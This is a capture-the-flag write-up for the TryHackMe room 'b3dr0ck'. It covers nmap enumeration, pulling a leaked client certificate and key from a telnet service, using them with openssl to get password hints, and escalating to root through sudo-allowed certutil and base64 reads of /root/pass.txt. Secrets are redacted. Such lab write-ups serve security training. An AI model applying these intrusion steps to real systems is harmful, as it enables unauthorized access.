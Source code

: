 ```yaml
---
title: "b3dr0ck"
date: 2025-02-13
image: /assets/img/Bedrock/Bedrock_image.jpg
description: Writeup of the TryHackMe-CTF b3dr0ck
categories: [Tryhackme, Easy]
tags: [linux, certificates, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>b3dr0ck</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Server trouble in Bedrock.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/b3dr0ck">https://tryhackme.com/room/b3dr0ck</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge b3dr0ck.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.58.21                                 
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 12:36 EST
  Nmap scan report for 10.10.58.21
  Host is up (0.047s latency).
  Not shown: 65530 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  4040/tcp  open  yo-main
  9009/tcp  open  pichat
  54321/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 25.49 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash

```
From here I proceeded the analysis port by port.

## Port 80 Analysis

Accessing port 80 with a web browser redirects me to port 4040 and showed me the following message:

```text
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

Because of the `OVER 9000` I continued with port `9009`.

## Port 9009 Analysis

The web server timed out, so I tried connecting using `telnet`. The following output has been shortened for better readability:

```bash
$ telnet 10.10.58.21 9009              
Trying 10.10.58.21...
Connected to 10.10.58.21.
Escape character is '^]'.


 __          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               


What are you looking for? flag
Sorry, unrecognized request: 'flag'

You use this service to recover your client certificate and private key
What are you looking for? private key
Sounds like you forgot your private key. Let's find it for you...

-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----

What are you looking for? public
Sounds like you forgot your certificate. Let's find it for you...

-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----
```

I stored the certificates on my machine and continued with the last port.

## Port 54321 Analysis

The webserver gave me the following error message:
```text
Gave me: `Error: 'undefined' is not authorized for access.` Probably we need the cert?
```

That's interesting because we already received a certificate pair. I tried to connect to the server using `openssl` with success:
```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey -key privkey
```
The output is quite long, so I reduced it for readability:
```bash
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> flag
Unrecognized command: 'flag'

This service is for login and password hints
b3dr0ck> password hints 
Password hint: [removed] (user = 'Barney Rubble')
b3dr0ck> login
Login is disabled. Please use SSH instead.
```

After several attempts to crack the string, I decided to use it as a password and successfully connected via `ssh`. 

## Privilege Escalation Fred

Because I have a valid username and password pair I was able to execute `sudo -l`:

```bash
$ sudo -l
[sudo] password for barney: 
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
```

There is likely a certificate stored for Fred:

```bash
barney@b3dr0ck:~$ cat /etc/passwd | grep fred
	fred:x:1000:1000:Fred Flintstone:/home/fred:/bin/bash
barney@b3dr0ck:~$ sudo certutil fred "Fred Flintstone"
  Generating credentials for user: fred (Fred Flintstone)
  Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
  Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[reduced]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[reduced]
-----END CERTIFICATE-----

```

Let's apply the same approach used for Barney's certificate:

```bash
$ openssl s_client -connect 10.10.58.21:54321 -cert pubkey2 -key privkey2
 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> hint
Password hint: [removed] (user = 'Fred Flintstone')
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck>

$ ssh fred@10.10.58.21            
fred@10.10.58.21's password: 
fred@b3dr0ck:~$
fred@b3dr0ck:~$ cat fred.txt 
THM{[removed]}
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
red@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
```

I then proceeded to execute the `base64` command with sudo:

```base64
fred@b3dr0ck:~$ sudo /usr/bin/base64 /root/pass.txt | base64 -d
[removed]
```

At this point, I used `CyberChef` and `Crackstation` to analyze the string:

![Root Password](/assets/img/tryhackme/Bedrock/thm_bedrock_1.jpg)

```base64
fred@b3dr0ck:~$ su root
	Password: 
root@b3dr0ck:/home/fred# cd /root
root@b3dr0ck:~# ls
	pass.txt  root.txt  snap
root@b3dr0ck:~# cat root.txt
THM{[removed]}
```

solved! :)
